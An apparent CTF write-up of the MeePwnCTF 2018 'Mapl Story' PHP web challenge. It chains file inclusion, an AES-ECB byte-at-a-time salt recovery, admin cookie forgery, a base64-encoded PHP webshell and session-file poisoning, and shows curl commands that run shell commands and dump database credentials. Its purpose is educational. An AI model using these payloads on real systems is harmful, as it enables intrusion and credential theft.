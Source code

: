 ```yaml
---
layout: post
category: Web
title: MeePwnCTF quals 2018 Mapl Story
tags: 
    - lukas2511
---
```


Mapl Story was part of the MeePwnCTF Quals 2018 and consists of a webpage where you can name a
"character" and train a pet a command. You get the code but the config is censored.

## Have a look around

First of let's create an account, e.g. foobar@example.org/foobar123, set any name, we'll change that later.

Sign in and have a look at your cookies, you'll see your PHPSESSID and a `_role`.
`_role` is generated using either `sha256("admin".$salt)` or (in this case) `sha256("user".$salt)`.
We need the salt to continue here.

Have a look around the few pages on the site. The game page is completely irrelevant, just a gimmick.

## File inclusion vulnerability

There is a file inclusion vulnerability in index.php, so have a look at e.g. `/index.php?page=/etc/group`.
Unfortunately it uses a GET variable which is heavily escaped so for now there isn't really much we can
directly do with this bug.

## Let's get salty

Let's have a look at `/index.php?page=/var/lib/php/sessions/sess_PHPSESSID` (replace PHPSESSID).

You'll see a variable called `character_name`.
`character_name` is AES-128-ECB encrypted data using `openssl_encrypt($data.$salt,"AES-128-ECB",$key)`.
Since AES-128-ECB is working on 16-byte blocks and we control the start of the string (it's the character name you
can update on your settings page!) we can attack it by brute-forcing byte by byte.

We start of setting a character name like `AAAAAAAAAAAAAAA` (15x'A') and we'll look at the first 32 characters
of the hash in the session file, now we start trying printable characters at the 16. position, we'll find a hash
match at `AAAAAAAAAAAAAAAm` so we now the salt starts with `m`. Next we do the same thing with
`AAAAAAAAAAAAAA` (14x'A') and will get the hash and try characters again, the next match will be `AAAAAAAAAAAAAAms`.

We'll continue this until we finally get the salt: `ms_g00d_0ld_g4m3`.

## Becoming admin

Becoming admin now is as simple as writing the result of `sha256("admin"."ms_g00d_0ld_g4m3")` into our `_role`
cookie. After refreshing the page you'll see the admin link appearing in the navigation bar.

`sha256("admin"."ms_g00d_0ld_g4m3") => a2ae9db7fd12a8911be74590b99bc7ad1f2f6ccd2e68e44afbf1280349205054`

## Give yourself a pet

In the admin menu you have to give yourself a pet. This will allow you to train it commands on the character
page, which is just writing a text-file under `"uploads/".md5($salt.$email)."/command.txt`.
A lot of characters are filtered and you can only write 19 characters, so you can't really do much with this
alone.

19 characters is just barely long enough to fit a base64-encoded ```<?=`$_GET[1]`;``` (`PD89YCRfR0VUWzFdYDs` – slightly broken padding), which would give us a shell, but now we need a way to actually decode and execute that...

## Choose a new name

Well, if you looked carefully at the session file you would have noticed the clear-text `action` part, which
contains the last logged line. There is one log-line in the code-base which we can control, when giving a player
a pet the log will contain the character name at the end.

I think `<?=include"$_COOKIE[0]` is a beautiful name, don't you think? So what does this do?... It allows us to
include files using a cookie named `0`. Since cookies are not filtered inside the script we now have full control
over the file inclusion.

## Execute your first command

Now that everything is prepared we need a final way to execute the base64-encoded php code we trained our pet earlier,
but that's really simple, PHP actually has a built-in helper for that: `php://filter/convert.base64-decode/resource=path/to/file`.

In case of `foobar@example.org` (considering the upload path mentioned before) a command-execution now looks like this:

```
Ξ ~ → curl 'http://mapl.story/?page=/var/lib/php/sessions/sess_0qlekg08c8pah3rcftjraeon24&1=ls' -H 'Cookie: 0=php://filter/convert.base64-decode/resource=upload/56cea464131b6903185abfe3d6103385/command.txt'      
character_name|s:96:"d1f197d11ed6b3d29f08a9893429eb2bfa19e4543ff1d33bf19c5a89aec19b45080a355c37b4654ec2a5813f81dbe98b";user|s:96:"917467323f3a8e09ab1c2a2d7e3dc3ac85c0c4f08622b7e10a4ec4a18ad36e9919326131b516d9053ee8980a1230ad0e";action|s:65:"[02:27:52am GMT+7] gave blackpig to player admin.php
assets
character.php
dbconnect.php
die.php
game.php
home.php
index.php
login.php
logout.php
mapl_library.php
register.php
setting.php
style.css
upload
1
```

## Attack!

From there we can take a look at `dbconnect.php` (`&1=cat%20dbconnect.php`) and we'll find the mysql username and password:

```
define('DBUSER', 'mapl_story_user');
define('DBPASS', 'tsu_tsu_tsu_tsu'); 
define('DBNAME', 'mapl_story');
```

Now let's see what's in the `mapl_config` table that is mentioned a few times in the script (it should at least contain the encryption key):

```
curl 'http://mapl.story/?page=/var/lib/php/sessions/sess_0qlekg08c8pah3rcftjraeon24&1=echo%20%27SELECT%20%2A%20FROM%20mapl_config%3B%27|%20mysql%20-umapl_story_user%20-ptsu_tsu_tsu_tsu%20mapl_story' -H 'Cookie: 0=php://filter/convert.base64-decode/resource=upload/56cea464131b6903185abfe3d6103385/command.txt' 
character_name|s:96:"d1f197d11ed6b3d29f08a9893429eb2bfa19e4543ff1d33bf19c5a89aec19b45080a355c37b4654ec2a5813f81dbe98b";user|s:96:"917467323f3a8e09ab1c2a2d7e3dc3ac85c0c4f08622b7e10a4ec4a18ad36e9919326131b516d9053ee8980a1230ad0e";action|s:65:"[02:27:52am GMT+7] gave blackpig to player mapl_salt	mapl_key	mapl_now_get_your_flag
ms_g00d_0ld_g4m3	You_Never_Guess_This_Tsug0d_1337	MeePwnCTF{__Abus1ng_SessioN_Is_AlwAys_C00L_1337!___}
1
```

There we go, we got our flag `MeePwnCTF{__Abus1ng_SessioN_Is_AlwAys_C00L_1337!___}` :)
